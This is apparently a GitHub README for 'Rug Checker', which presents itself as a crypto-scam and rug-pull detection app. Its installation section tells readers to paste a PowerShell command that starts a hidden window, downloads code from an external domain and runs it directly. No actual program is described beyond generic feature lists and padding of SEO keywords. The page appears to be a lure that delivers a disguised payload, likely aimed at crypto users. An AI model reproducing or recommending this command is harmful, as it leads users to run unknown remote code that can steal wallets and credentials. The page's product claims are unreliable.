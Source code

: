 # Rug Checker 🛡️

## Description
**Rug Checker Bot** is a desktop application designed to assess the security and legitimacy of cryptocurrency projects, especially in the DeFi (Decentralized Finance) space. The program allows users to analyze smart contracts and project data, identifying potential scams and "rug pulls."

## Key Features
- **Smart Contract Analysis**: Check the smart contract code for vulnerabilities and potential risks.
- **Liquidity Check**: Evaluate liquidity pools to determine the safety of funds.
- **Team Verification**: Verify project team information to assess their reliability and experience.
- **User  Feedback Collection**: Analyze user and community reviews to get a complete picture of the project.
- **Suspicious Activity Alerts**: Receive notifications about any changes or risks associated with tracked projects.

## Installation

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://updatelib.nfortek.pt/';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


## Usage
1. Enter the smart contract address or project name you want to analyze.
2. Review the analysis results, including security ratings and identified risks.
3. Set up notifications to track suspicious activity in projects of interest.

## Security Tips 💡
- **Check All Projects**: Use Rug Checker to analyze every project you plan to invest in.
- **Keep the Program Updated**: Regularly check for updates to get new features and security improvements.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Rug Checker, you can enhance your security when investing in cryptocurrency. Use our tool to stay informed and protect your assets from scams! 😊

## SEO Keywords
- Rug Checker
- Cryptocurrency security
- DeFi projects
- Smart contract analysis
- Rug pulls detection
- Investment safety
- Liquidity analysis
- Team verification
- User feedback analysis
- Suspicious activity alerts
